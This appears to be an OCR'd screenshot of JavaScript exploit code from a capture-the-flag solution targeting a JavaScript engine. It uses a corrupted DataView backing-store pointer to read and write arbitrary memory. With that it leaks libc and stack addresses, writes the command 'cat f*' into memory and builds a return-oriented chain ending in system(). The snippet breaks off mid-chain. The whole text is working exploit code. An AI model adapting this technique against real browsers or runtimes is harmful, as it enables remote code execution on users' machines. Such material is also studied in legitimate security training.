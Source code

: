 ```js
let dataview = new DataView(arrs[0]);

// Address in GOT we want to leak
got_pkey_set = pie_base + BigInt(0x28ab9d8);
console.log("got_pkey_set: " +  got_pkey_set.toString(16));

// Overwrite backing_store pointer
arr[30] = itof((BigInt(got_pkey_set & 0xffffffffn) << 32n));
arr[31] = itof(got_pkey_set >> 32n);

let libc_pkey_set = dataview.getBigUint64(0, true);
console.log("libc_pkey_set: " +  libc_pkey_set.toString(16));

let libc_base = libc_pkey_set - BigInt(0x12a530);
console.log("libc Base: " +  libc_base.toString(16))

let environ  = libc_base + BigInt(0x20ad58);
console.log("environ: " +  environ.toString(16))

arr[30] = itof((BigInt(environ & 0xffffffffn) << 32n));
arr[31] = itof(environ >> 32n);

let sp_leak = dataview.getBigUint64(0, true);
console.log("sp_leak: 0x" +  sp_leak.toString(16));
console.log("weh");

let sp_target = sp_leak - BigInt(0x138)
console.log("sp_target: 0x" +  sp_target.toString(16));

// flag is at ./flag.txt, so write 'cat f*\0' somewhere for system()
let cmd_str = sp_leak - BigInt(0x100)
arr[30] = itof((BigInt(cmd_str & 0xffffffffn) << 32n));
arr[31] = itof(cmd_str >> 32n);
console.log("cmd_str = 0x" + cmd_str.toString(16));
dataview.setBigUint64(0, BigInt(0x20746163) + (BigInt(0x2a66) << 32n), true);

let system = libc_base + BigInt(0x58750);
let pop_rdi = libc_base + BigInt(0x000000000010f78b);

// ret
arr[30] = itof((BigInt(sp_target & 0xffffffffn) << 32n));
arr[31] = itof(sp_target >> 32n);
let ret = pop_rdi + BigInt(1);
console.log("ret = 0x" + ret.toString(16));
dataview.setBigUint64(0, ret, true);

// pop rdi
sp_target += 8n;
arr[30] = itof((BigInt(sp_target & 0xffffffffn) << 32n));
arr[31] = itof(sp_target >> 32n);
console.log("pop_rdi = 0x" + pop_rdi.toString(16));
dataview.setBigUint64(0, pop_rdi, true);

// cmd_str
sp_target += 8n;
arr[30] = itof((BigInt(sp_target & 0xffffffffn) << 32n));
arr[31] = itof(sp_target >> 32n);
let binsh = libc_base + BigInt(0x1cb42f);
dataview.setBigUint64(0, cmd_str, true);

// system
sp_target += 8n;
arr[30] = itof((BigInt(sp_target & 0xffffffffn) << 32n));
```